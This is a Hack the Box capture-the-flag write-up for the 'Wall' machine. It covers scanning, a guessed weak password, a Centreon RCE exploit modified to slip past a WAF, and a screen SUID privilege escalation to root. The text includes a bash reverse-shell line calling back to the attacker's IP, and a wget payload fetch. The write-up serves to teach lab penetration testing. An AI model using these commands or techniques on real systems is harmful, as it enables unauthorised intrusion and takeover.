 +++
author = "Nick"
categories = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
date = 2019-12-07T13:15:15Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/11/wall.png"
slug = "hack-the-box-wall"
summary = "Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as an easy box, let's jump in!"
tags = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
title = "Hack the Box - Wall"

+++


Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as a medium box, let's jump in!

As normal we start our enumeration process with ```nmap```. 

```nmap -sC -sV -oA initial_scan 10.10.10.157```

our results are pretty standard:

```
Nmap scan report for 10.10.10.157
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.89 seconds
```

Let's head over to see what's being hosted. 

We see a standard ```apache2``` install. So we're going to want to enumerate this site a bit. We'll add it to our hostfile as wall.htb and send it into ```gobuster```.

We run:
```gobuster dir -u http://wall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40```

We only get back two standard results

{{< figure src="__GHOST_URL__/content/images/2019/11/image-16.png" >}}

Since I didn't specify the ```-x``` parameter on the initial scan, we need to run it again for file extensions. We see there are a few with the .php extension.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-17.png" >}}

There are some interesting files and folders after enumeration. There doesn't seem to be much we can do with the two new ```php``` files. When we open ```Burpsuit``` and start to poke the site with ```GET``` and ```POST``` requests, we see that if we send a ```POST``` request to ```/monitoring/``` we are redirected to ```/centreon```.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-18.png" >}}

We go to the address and are greated with a login form. We see the version running is 19.04. A quick ```searchsploit``` on Centreon shows us that there is an RCE for this particular version.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-19.png" >}}

We can copy this exploit to our current working directory with the ```-m``` command of ```searchsploit```.

```searchsploit centreon -m 47069```.

When we run the exploit we see our options:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-20.png" >}}

In this case we'll need to obtain user credentials to run the exploit. Now you can brute force this login with a few options, ```hydra```, ```wfuzz``` or just write your own. In my case guessing the password without doing any of those worked out, turns out password1 isn't exactly hard to guess. Now that we have some credentials, we can use this exploit. 

So we give our exploit our credentials and our IP and port. Start a new NC listener and fire it off... Nothing. Hmmm, so We will modify the exploit to show us what might be going on. We modify the last bit of lines to show as this:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-25.png" >}}

Now that we will get back some data on what might be going on, we run it again and see what's not working. We get back some XML data but it seems that it's working. There could be a WAF in place blocking the standard malicious payloads. So we'll again modify our script to simply take the payload we give it.

To do this we will change the amount of arguments our script takes. We will remove the line 30 & 31 for  ```ip``` and ```port```. We will then create an argument called ```payload```. We also need to modify the expected length on line 22. We should have something like this:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-26.png" caption="" >}}

We then need to modify our ```payload_info```. Line 69 is where the payload the default exploit would use. However, we can simply replace this payload with the variable ```payload```. This way we can modify our payload on the go to evade whatever might be blocking the standard payload.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-27.png" >}}

Our first goal will be to test it. We will execute our newly modified script to test that it works. We will start up a ```SimpleHTTPServer``` and host a file. We will then issue ```wget``` and see if the file is retrieved. In this case I made a quick file called shell.sh which has the standard bash remote connection:

```bash -i >& /dev/tcp/10.10.15.154/4444 0>&1```

We fire off our new exploit and we see it connect back to us and download the file.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-28.png" >}}

Below we see that the exploit has indeed worked.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-21.png" >}}

Next we have to move our file to the ```/tmp``` directory just to be sure it can run.  Then change the permissions of our script so it can execute.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-22.png" >}}

We then fire up our listener and tell the script to execute. The first few times I tried this, I was unable to get a shell on random ports. So we just use the good ol' port 53 trick.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-24.png" >}}

We get a shell back as ```www-data```! Now that we are on the machine, we can start enumerating. We download ```linenum``` and see what it comes back with. One item that is noticeable is ```screen-4.5.0``` in our SUID section.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-29.png" >}}

A quick ```searchsploit``` for screen comes back with two possible Local Privilege Escalations.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-30.png" >}}

We will download the exploit, host it on our server and get it from the target machine.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-31.png" >}}

The exploit will error, however if we check the directory, we see our shell file ```rootshell```.  After that we run it and we have root shell:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-33.png" >}}

We then grab the user flag. The box is done!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

